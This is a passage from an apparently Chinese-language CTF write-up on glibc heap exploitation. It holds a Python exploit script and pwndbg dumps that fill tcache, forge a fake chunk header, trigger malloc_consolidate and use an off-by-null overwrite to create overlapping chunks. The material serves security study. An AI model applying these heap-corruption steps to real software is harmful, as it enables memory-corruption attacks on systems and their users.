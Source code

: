 7号chunk中的内容

```C
pwndbg> x/32gx 0x558c496305d0
0x558c496305d0:	0x0000000000000000	0x0000000000000081
0x558c496305e0:	0x00007f2cb69bcd10	0x00007f2cb69bcd10
0x558c496305f0:	0x0000000000000000	0x0000000000000000

```



#### 第二步实操

##### 2.1

构造一个0x110的(0x70+0x60+0x30)unsortedbin，同时伪造一个header，用来向前合并造成堆重叠，并利用off by null 修改

0x110的chunk size为0x100

```Python
for i in list(range(7)):
    delete(i)
delete(7)#0x68

for i in range(7):
    add(i,0x58)
for i in list(range(7)):
    delete(i)
delete(8)#0x58

for i in list(range(7)):
    add(i,0x20)
for i in list(range(7)):
    delete(i)
edit(9,"QAQ.QVQ."*2+p64(0x100)+p64(0x10))#伪造一个header，用来向前（低地址）合并造成堆重叠
gdb.attach(p)
delete(9)#0x20
#gdb.attach(p)
p.sendlineafter("choice: ",'1'*0x7000)#fastbin 2 unsortedbin
#gdb.attach(p)
#off by null将0x110覆盖为0x100
add(11,0x78)#head:用于off by null溢出修改size(0x110->0x100)
#gdb.attach(p)
edit(11,'a'*0x78)
```

9号chunk填充完毕的状态如下

```C
pwndbg> x/32gx 0x556e6dcc56b0
0x556e6dcc56b0:	0x0000000000000000	0x0000000000000031
0x556e6dcc56c0:	0x2e5156512e514151	0x2e5156512e514151
0x556e6dcc56d0:	0x0000000000000100	0x0000000000000010
```

再次触发malloc_consolidate 和off by null后chunk的排布如下
